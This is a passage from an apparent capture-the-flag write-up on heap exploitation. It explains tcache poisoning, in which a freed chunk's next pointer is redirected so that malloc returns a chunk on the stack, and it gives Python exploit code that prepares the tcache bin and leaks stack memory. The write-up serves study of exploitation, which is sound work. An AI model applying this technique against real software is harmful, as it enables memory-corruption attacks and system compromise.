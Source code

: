 ## Get a chunk on the stack

Now we can move a chunk to the stack. In order to achieve this, we have to
overwrite the next pointer of a free tcache chunk with the address of
`program_invocation_short_name` calculated previously when we leaked the
address of libc. To furthermore be able to allocate chunks at these addresses,
the counter of the tcache bin needs to be adjusted. Since we want to allocate
three chunks (our fake chunk, the one in libc and the one onto the stack), we
first have to free the fake chunk and two other chunks of the same size to the
corresponding tcache bin. Since tcache bins are handled like stacks, i.e. the
last chunk freed will be malloced first, our fake chunk must be freed last. To
accomplish this, we will malloc the fake chunk in the first pipe and use the
second pipe for the remaining chunks. After the tcache bin is prepared with
the correct amount of chunks, we can alter the next pointer of the fake chunk
with our target. In order to not mess with adjacent chunks, we provide an even
amount of hex chunks and thereby don't write the full chunk.

```python  
def prepare_malloc_target(con: tube, target: int, size: int=0x140) -> None:  
   # allocate fake chunk  
   post_message(con, 100, 0, True, b"f"*((size-8)*2))

   # allocate + free other chunks  
   post_message(con, 100, 1, True, b"f"*((size-8)*2))  
   post_message(con, 100, 1, True, b"f"*((size-8)*2))  
   recv_message(con, 1)  
   recv_message(con, 1)

   # free fake chunk  
   recv_message(con, 0)

   # change next pointer of fake chunk  
   change_fake_chunk(con, size, target)  
   print("tcache prepared")

SIZE = 0x140

prepare_malloc_target(io, stack_pointer, SIZE)  
```

After we prepared and correctly linked the tcache chunks, we can allocate the
chunk onto the stack.  
```python  
# dereference next pointers  
post_message(io, 100, 0, True, b"f"*((SIZE-8)*2))  
post_message(io, 100, 0, True, b"f"*((SIZE-8)*2))

# malloc stack  
post_message(io, 100, 1, True, b"f"*((SIZE-8)*2+1))

# leak stack  
leak = recv_message(io, 1)  
print(hexdump(leak))  
```
